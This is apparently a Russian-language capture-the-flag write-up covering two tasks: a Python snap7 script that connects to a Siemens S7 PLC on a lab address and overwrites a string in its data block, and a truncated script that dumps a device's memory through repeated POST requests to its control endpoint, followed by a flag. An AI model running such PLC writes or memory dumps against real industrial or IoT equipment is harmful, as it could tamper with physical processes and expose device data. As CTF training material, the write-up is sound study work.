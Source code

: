
<br><br>
<h2>Поезд</h2>
После разведки выяснили, что контроллер работает на 10.10.14.2 по протоколу S7 (порт 102).<br>
Разбираемся что это такое и как работает.<br>
Находим библиотеку для python - snap7.<br>

Пишем код.<br>

```python
import snap7
from snap7.util import set_string

PLC_IP = "10.10.14.2"
RACK = 0
SLOT = 1

DB_NUMBER = 1
string_num = 10
START_BYTE = (string_num-1)*256
#START_BYTE = 1024
print(START_BYTE)
MAX_LENGTH = 254

NAME = "  "+"Poison Berries"+" "*52

plc = snap7.client.Client()
plc.connect(PLC_IP, RACK, SLOT)

data = plc.db_read(DB_NUMBER, START_BYTE, MAX_LENGTH)
print(f"{data}")

#set_string(data, 0, NAME, MAX_LENGTH)
plc.db_write(DB_NUMBER, START_BYTE, NAME.encode())

#data_new = plc.db_read(DB_NUMBER, START_BYTE, MAX_LENGTH)
#print(data_new.decode(errors='ignore'))

plc.disconnect()
```

string_num - строку куда записываем<br>
NAME - то что записываем

<br><br>
<h2>Кроличий горшок 2.0</h2>

Находим статью об исследовании похожего горшка и скрипт, читающий память в которой и есть флаг.<br>
[https://qwqoro.works/articles/plants-vs-bugs](https://qwqoro.works/articles/plants-vs-bugs)

```nto{p07_wh475_1n_ur_h34d}```

```python
import struct
import requests

start_param = 1337
end_param = 2000

with open("dumpy.bin", "wb") as f:
    for i in range(start_param, end_param):
       print(f"[*] Requesting {i}")
       r = requests.post("http://10.10.1.172/control", json={"cmd": 1, "param": i})
       value = r.json()["value"]
       if type(value) == int:
          f.write(struct.pack("<i", value))
       elif type(value) == float:
```